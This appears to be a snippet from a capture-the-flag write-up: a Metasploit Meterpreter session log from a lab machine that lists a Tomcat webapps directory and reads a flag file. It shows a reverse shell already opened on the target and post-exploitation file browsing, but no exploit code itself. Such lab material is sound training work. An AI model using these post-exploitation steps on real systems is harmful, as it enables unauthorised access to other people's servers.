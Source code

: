 ```bash
[*] Meterpreter session 1 opened (10.8.21.42:4444 -> 10.10.235.203:40122) at 2020-05-25 15:14:40 -0600

meterpreter > ls webapps
Listing: webapps
================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
40755/rwxr-xr-x   4096      dir   2019-12-08 14:12:45 -0700  ROOT
100644/rw-r--r--  12828110  fil   2019-10-23 13:16:52 -0600  ROOT.war

meterpreter > ls webapps/ROOT
Listing: webapps/ROOT
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  META-INF
100644/rw-r--r--  38    fil   2019-12-08 14:12:44 -0700  ThisIsFlag1.txt
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  WEB-INF
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  actionchaining
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  ajax
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  chat
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  conversion
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  customTemplateDir
100644/rw-r--r--  65    fil   2019-12-08 14:12:44 -0700  date.jsp
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  empmanager
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  filedownload
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  fileupload
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  freemarker
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  hangman
100644/rw-r--r--  997   fil   2019-12-08 14:12:44 -0700  help.jsp
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  images
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  img
100644/rw-r--r--  48    fil   2019-12-08 14:12:44 -0700  index.jsp
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  integration
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  interactive
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  js
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  jsf
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  modelDriven
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  person
100644/rw-r--r--  694   fil   2019-12-08 14:12:44 -0700  showcase.jsp
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  styles
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  tags
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  template
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  tiles
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  token
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  validation
100644/rw-r--r--  1399  fil   2019-12-08 14:12:44 -0700  viewSource.jsp
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  wait
40755/rwxr-xr-x   4096  dir   2019-12-08 14:12:45 -0700  xslt

meterpreter > cat webapps/ROOT/ThisIsFlag1.txt
THM{3ad96bb13ec963a5ca4cb99302b37e12}
```
